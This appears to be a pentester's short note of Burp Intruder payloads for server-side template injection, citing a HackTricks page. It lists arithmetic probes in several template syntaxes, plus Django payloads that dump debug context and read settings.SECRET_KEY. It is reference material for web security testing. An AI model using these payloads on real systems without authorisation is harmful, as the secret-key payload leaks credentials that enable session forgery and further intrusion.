 Intruder payloads LINK: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

{% 7+7 %}
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}


django ssti ==>
{% debug %}
{{settings.SECRET_KEY}}
